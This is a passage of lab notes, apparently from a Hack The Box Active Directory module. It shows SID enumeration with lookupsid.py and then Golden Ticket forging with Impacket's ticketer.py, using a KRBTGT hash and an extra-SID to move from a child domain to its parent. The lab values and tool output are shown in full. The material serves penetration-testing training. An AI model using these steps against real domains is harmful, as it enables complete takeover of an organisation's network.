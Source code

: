 ```bash
Yashfren@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```
###### We have gathered the following data points to construct the command for our attack. Once again, we will use the non-existent user hacker to forge our Golden Ticket.
- ###### The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
- ###### The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
- ###### The name of a target user in the child domain (does not need to exist!): hacker
- ###### The FQDN of the child domain: LOGISTICS.INLANEFREIGHT.LOCAL
- ###### The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519
###### Next, we can use ticketer.py from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain (specified by -domain-sid) and the parent domain (specified by -extra-sid).
## Constructing a Golden Ticket using ticketer.py

```bash
Yashfren@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```
